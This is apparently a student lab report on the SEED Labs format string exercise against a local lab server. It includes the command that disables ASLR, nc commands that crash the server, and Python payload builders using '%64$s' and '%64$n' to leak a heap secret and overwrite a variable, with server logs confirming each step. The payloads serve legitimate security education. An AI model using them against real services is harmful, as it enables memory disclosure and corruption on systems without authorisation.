 # Format String Lab

## Introduction

In this week's lab, our group focused on the Format String Attack exercise from SEED Labs. The primary goal of our work was to demonstrate how unsafe use of format strings (for example, passing user-controlled data directly to `printf`) can be abused to read and write a program's memory, potentially enabling arbitrary code execution or privilege escalation.

For this exercise we followed the SEED tutorial and used the provided auxiliary files located in the `category-software/Format_String` directory of the SEED Labs repository on GitHub.

The report that follows documents command-by-command logs, payloads, debugger sessions, and explanations of why each vulnerability works at the OS level.

---

## Setup

We used the command `sudo sysctl -w kernel.randomize_va_space=0` to temporarily disable ASLR (Address Space Layout Randomization), making stack/heap addresses predictable to simplify exploit reproduction.

After that we went to the `Labsetup/server-code` directory and used these 2 commands:

1. `make`
2. `make install`

We wanted to compile the code by executing the commands in the `Makefile`.
We found warnings in the process but the SEED Lab said we can ignore those warnings for now.

To finish the setup we tested the commands:

- `dcbuild`
- `dcup`

To build and start the containers.

## Task 1

We sent a string to the server running the 32-bit program with the Format String vulnerability with the command `echo hello | nc 10.9.0.5 9090` and then finished the command by pressing `Ctrl + C`.

To crash the `myprintf()` function, we just used `echo "%n" | nc 10.9.0.5 9090`, because the `%n` tells printf to write to a pointer but without an argument, it writes to a random address, causing a crash.

But we could have used `python3 build_string.py` to create a file named `badfile`, then we would use the command `cat badfile | nc 10.9.0.5 9090` to have the same results, the `myprintf()` function would crash.

## Task 2.B

The objective of this task is to print a secret string that lives on the heap.

First we found the secret message's address in the server log `server-10.9.0.5 | The secret message's address:  0x080b4008`, now we needed that in the Little-Endian format, that we got it by using the code the lab provided:

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0xbfffeeee
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%.8x"*12 + "%n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

*But we modified it a little, to do what we needed*

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

secret_address = 0x080b4008

# (little-endian)
content[0:4] = (secret_address).to_bytes(4, byteorder='little')

# Format String
s = "%64$s"

fmt = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to stdout (to use with a pipe)
sys.stdout.buffer.write(content)
```

And then we used the command `python3 2b.py | nc 10.9.0.5 9090`, and got:

```terminal
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd0c0
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 1500 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffcfe8
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 |@
                 A secret message
server-10.9.0.5 | The target variable's value (after):  0x11223344
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

And here we go, we got the secret message, it's "A secret message".

## Task 3

We want to remotely change the server's target variable, it currently holds 0x11223344. By modifying that value we can alter the program's behavior/control flow.

### Task 3.A

The objective is just to change the target variable value, it does not matter the value after.

We used the file `build_string.py` as the base for the code of 3A, at the end it looked like this:

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

target_address = 0x080e5068

# (little-endian)
content[0:4] = (target_address).to_bytes(4, byteorder='little')

# First we print some characters, then we use %n
s = "AAAA%64$n" 

fmt = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

sys.stdout.buffer.write(content)
```

We then used that command: `python3 3A.py | nc 10.9.0.5 9090`

Which ended up being correct, because we got:

```terminal
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd0c0
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 1500 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffcfe8
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | hAAAAThe target variable's value (after):  0x00000008
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

The target variable value is clearly different, as it changed to "0x00000008".

### Task 3.B

Now we need to change the target variable value to specifically "0x5000".

So we just applied some changes to the 3A python file:

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

target_address = 0x080e5068

# (little-endian)
content[0:4] = (target_address).to_bytes(4, byteorder='little')

# We want to write 0x5000 = 20480 in decimal
# We already have 4 bytes of the address, so we need 20480 - 4 = 20476 more characters.
target_value = 0x5000  # 20480 in decimal
padding = target_value - 4 

# Construct a format string
# %.20476x prints a number with 20476 characters of padding
# %64$n writes the total number of characters to the address
s = f"%.{padding}x%64$n"

fmt = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write to stdout
sys.stdout.buffer.write(content)
```

And we finished with the command `python3 3B.py | nc 10.9.0.5 9090`, that writes 20476 zeros to reach a total of 20480:

4 (address) + 20476 (padding) = 20480 (characters) = 0x5000 

```terminal
...00000000000000000000000000000000000000000000000000000000000000000000000000000000000000011223344The target variable's value (after):  0x00005000
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```
